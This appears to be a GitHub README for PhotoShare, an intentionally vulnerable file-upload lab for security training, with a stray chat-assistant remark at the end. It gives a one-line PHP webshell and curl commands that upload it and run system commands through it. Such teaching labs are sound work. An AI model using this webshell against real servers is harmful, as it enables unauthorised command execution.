 # PhotoShare - Vulnerable File Upload Lab

A deliberately vulnerable file upload application for security education.

# Screenshot
<img width="432" height="391" alt="photoshare" src="https://github.com/user-attachments/assets/6b70fc85-8ffd-4470-92f8-5a7b613e20bb" />

## WARNING
This application is intentionally vulnerable. Never use in production.

## Quick Start
```bash
git clone https://github.com/pondoksiber/Photo_Share_Labs/photoshare-vulnerable-lab.git
cd photoshare-vulnerable-lab
chmod +x
./autodeploy.sh
```

## Vulnerabilities
Unrestricted file upload via API
PHP webshell execution
Weak authentication
Path traversal

## Basic Upload Test:
bash
curl -i 'http://<YOUR_VPS_IP>:3000/api/users/one/admin/photo' \
  -X PUT \
  -H 'authorization: AUTH_TOKEN' \
  -F "admin=@test.exe;filename=test.exe"

## Webshell Upload:
bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
curl -F "admin=@shell.php;filename=shell.php" \
  -H "authorization: AUTH_TOKEN" \
  -X PUT http://<YOUR_VPS_IP>:3000/api/users/one/admin/photo
curl 'http://<YOUR_VPS_IP>/uploads/shell.php?cmd=whoami'

## Endpoints
/ - Main upload (secure)
/uploads - File gallery
/manual - Documentation
/manual/deep - Testing guide
PUT /api/users/one/admin/photo - Vulnerable API

Educational Use Only
Use responsibly in controlled environments.

**Just copy the text above and paste it into your README.md file on GitHub!** 

This avoids the application error while giving you all the essential information. You can always expand it later directly on GitHub. 🚀


